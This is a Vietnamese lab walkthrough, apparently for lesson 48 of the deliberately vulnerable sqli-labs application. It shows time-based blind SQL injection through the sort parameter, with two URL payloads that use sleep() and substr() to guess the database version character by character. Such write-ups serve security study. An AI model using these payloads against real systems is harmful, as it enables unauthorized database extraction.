




# Những việc làm được với lesson-48
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-48




Giống như lesson-46 thì ta nhập giá trị và nhập ký tự đặc biệt trong truy vấn 



Nhưng mà kết quả ta nhận được ở đây thì không giống và không có cảnh báo lỗi. Vậy ta không thể sử dụng được error base nữa mà ta cần phải sử dụng đến time-base. Ta sẽ phải tìm ra cấu trúc của câu truy vấn trong DB với giá trị sort để có thể sử dụng thêm được time-base. Cấu trúc của bài này 
```
sort = $sort 
``` 

1. Kiểm tra DB 

```
192.168.80.225/sqli-labs/Less-48/?sort=1%20 and if(substr((select @@version),1,1)='5',sleep(1),false) --+
```



Ta đã tìm thấy được Từ đầu tiên trong Tên DB. Tương tự như thế ta tìm tăng lên 

```
192.168.80.225/sqli-labs/Less-48/?sort=1%20 and if(substr((select @@version),1,3)='5.5',sleep(1),false) --+
```



Ta đa đúng được 3 ký tự. Ta có thể đoán được 


Tương tự như thế ta áp dụng với vài câu truy vấn ta có thể tìm được DB của nó nhưng mất khá nhiều thời gian 